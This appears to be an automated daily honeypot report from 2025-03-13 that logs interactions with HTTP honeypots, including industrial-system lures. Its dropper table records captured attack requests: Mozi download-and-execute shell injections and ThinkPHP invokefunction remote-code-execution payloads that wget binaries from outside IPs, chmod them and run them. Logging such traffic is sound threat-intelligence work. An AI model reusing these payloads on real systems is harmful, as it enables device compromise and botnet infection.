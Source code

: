 ```yaml
---
title: "Report: 2025-03-13 "
date: 2025-03-13
desciption: "Report: {today} "
tags: [repport, daily]
---
```


# Daily Report: 2025-03-13
interaction report on http service of various Hhoneypot around the world.
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of source IP addresses](#list_of_source_ip_addresses)
- [List of user_agent](#user_agent)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| US               | Dubai              |
| CN               | Georgia            |
| BR               |                    |
| BR               |                    |
| BR               |                    |
| BR               |                    |

## botnet_dropper_behaviour
| remote_addr     | request                                                                                                                                                                                                                                 |
|:----------------|:----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 163.125.132.53  | GET /shell?cd+/tmp;rm+-rf+*;wget+http://163.125.132.224:43007/Mozi.a;chmod+777+Mozi.a;/tmp/Mozi.a+jaws HTTP/1.1                                                                                                                         |
| 115.205.84.70   | GET /shell?cd+/tmp;rm+-rf+*;wget+http://115.205.84.70:39401/Mozi.a;chmod+777+Mozi.a;/tmp/Mozi.a+jaws HTTP/1.1                                                                                                                           |
| 45.148.10.235   | POST /device.rsp?opt=sys&cmd=___S_O_S_T_R_E_A_MAX___&mdb=sos&mdc=cd%20%2Ftmp%3Brm%20arm7%3B%20wget%20http%3A%2F%2F42.112.26.36%2Farm7%3B%20chmod%20777%20%2A%3B%20.%2Farm7%20tbk HTTP/1.1                                               |
| 204.76.203.18   | GET /wget HTTP/1.1                                                                                                                                                                                                                      |
| 140.207.30.37   | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://5.255.115.56/x86_64 -O /tmp/.phpdsds; chmod 777 /tmp/.phpdsds; /tmp/.phpdsds php.x86' HTTP/1.1           |
| 61.130.11.82    | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://5.255.115.56/x86_64 -O /tmp/.phpdsds; chmod 777 /tmp/.phpdsds; /tmp/.phpdsds php.x86' HTTP/1.1           |
| 45.164.177.99   | 27;wget%20http://%s:%d/Mozi.m%20-O%20->%20/tmp/Mozi.m;chmod%20777%20/tmp/Mozi.m;/tmp/Mozi.m%20dlink.mips%27$ HTTP/1.0                                                                                                                   |
| 152.42.231.197  | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]='wget http://152.42.234.215/bns/x86 -O thonkphp ; chmod 777 thonkphp ; ./thonkphp ThinkPHP ; rm -rf thinkphp' HTTP/1.1 |
| 180.229.15.76   | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://5.255.115.56/x86_64 -O /tmp/.phpdsds; chmod 777 /tmp/.phpdsds; /tmp/.phpdsds php.x86' HTTP/1.1           |
| 180.153.27.22   | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://5.255.115.56/x86_64 -O /tmp/.phpdsds; chmod 777 /tmp/.phpdsds; /tmp/.phpdsds php.x86' HTTP/1.1           |
| 211.143.108.124 | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://5.255.115.56/x86_64 -O /tmp/.phpdsds; chmod 777 /tmp/.phpdsds; /tmp/.phpdsds php.x86' HTTP/1.1           |
